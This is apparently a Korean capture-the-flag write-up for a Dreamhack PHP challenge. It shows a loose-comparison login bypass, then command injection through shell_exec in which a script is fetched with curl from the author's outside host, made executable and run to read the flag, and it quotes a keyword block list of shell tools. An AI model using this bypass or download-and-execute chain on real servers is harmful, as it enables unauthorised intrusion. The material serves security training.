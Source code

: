 ```yaml
---
title: Switching Commnad
author: heogi
date: 2024-01-07
categories:
  - Dreamhack
  - CTF
tags:
  - Dreamhack
  - php
  - loose-comparision
comments: true
---
```

## **0\. Description**

Not Friendly service… Can you switching the command?

## **1\. Analysis**

페이지에 접속하면 Username을 입력할 수 있는 화면이 보인다.

다운로드 받은 코드를 확인해보면 사용자 입력값에 대해 json\_decode()를 통해 json 데이터를 파싱한다.

Username이 admin일 경우 Admin Session을 가지고 test.php로 이동한다.

```php
#index.php
if ($_SERVER["REQUEST_METHOD"]=="POST"){
    $data = json_decode($_POST["username"]);

    if ($data === null) {
        exit("Failed to parse JSON data");
    }
        
    $username = $data->username;

    if($username === "admin" ){
        exit("no hack");
    }

    switch($username){
        case "admin":
            $user = "admin";
            $password = "***REDACTED***";
            $stmt = $conn -> prepare("SELECT * FROM users WHERE username = ? AND password = ?");
            $stmt -> bind_param("ss",$user,$password);
            $stmt -> execute();
            $result = $stmt -> get_result();
            if ($result -> num_rows == 1){
                $_SESSION["auth"] = "admin";
                header("Location: test.php");
            } else {
                $message = "Something wrong...";
            }
            break;
        default:
            $_SESSION["auth"] = "guest";
            header("Location: test.php");
            
    }
}
```

첫번째 문제는 switch 문에서 case "admin"으로 진입해 admin 세션을 할당받아야하는데 "admin" 문자열은 필터링이 되고있다.

admin 필터링에서는 `===(strict comparision)`을 사용하여 자료형까지 같은지 확인하고있다.

하지만 switch/case 문에서는 아래 처럼 `loose comparision`을 사용한다고 되어있다.

![](../assets/img/Pasted%20image%2020240413002912.png)

이 부분을 이용하여 `username={"username":true}`를 입력하면 "admin" 필터링은 우회하며, case "admin": 문은 통과할 수 있다.

![](../assets/img/Pasted%20image%2020240413002927.png)
![](../assets/img/Pasted%20image%2020240413002934.png)
![](../assets/img/Pasted%20image%2020240413002943.png)

다음은 test.php의 내용을 통해 flag를 획득해야한다. 아래는 test.php의 내용이다.

```php
#test.php
$pattern = '/\b(flag|nc|netcat|bin|bash|rm|sh)\b/i';

if($_SESSION["auth"] === "admin"){

    $command = isset($_GET["cmd"]) ? $_GET["cmd"] : "ls";
    $sanitized_command = str_replace("\n","",$command);
    
    if (preg_match($pattern, $sanitized_command)){
        exit("No hack");
    }
    $resulttt = shell_exec(escapeshellcmd($sanitized_command));
}
```

cmd 파라미터를 통해 입력 받은 값을 `shell_exec()`로 실행한다.

과정에서 특정 문자열 패턴과 `escapeshellcmd()`를 통해 Sanitize를 수행한다.

결국 cmd는 서버 내부에서 실행되는 명령으로 다양한 서버 명령을 사용해볼 수 있다.

하지만 test.php에서 `$result` 변수는 화면에 출력이 되도록 되어있지만, `$resulttt`는 출력이 되지 않아 단순히 플래그를 실행하여 값을 확인할 수는 없다.

wget 또는 curl을 통해 원격지에서 파일을 받을 수 있는지 테스트해보니 curl을 통해 원격지 파일을 다운로드 받을 수 있음을 확인했다.

PHP 웹쉘 또는 `/flag`를 실행하여 pattern에 걸리지 않는 이름으로 파일을 생성하여 접근해보는 방법이 있을거같다.

## **2\. Attack**

후자로 진행을 해보면 아래 처럼 플래그를 획득할 수 있다.

```shell
#Filename:heogi
#!/bin/bash

/flag > te.ttt
```

```
1. GET /test.php?cmd=curl ctf.heogi.com/heogi -o heogi
2. GET /test.php?cmd=chmod 777 heogi
3. GET /test.php?cmd=/var/www/html/heogi
4. GET /te.ttt
```

![](../assets/img/Pasted%20image%2020240413002955.png)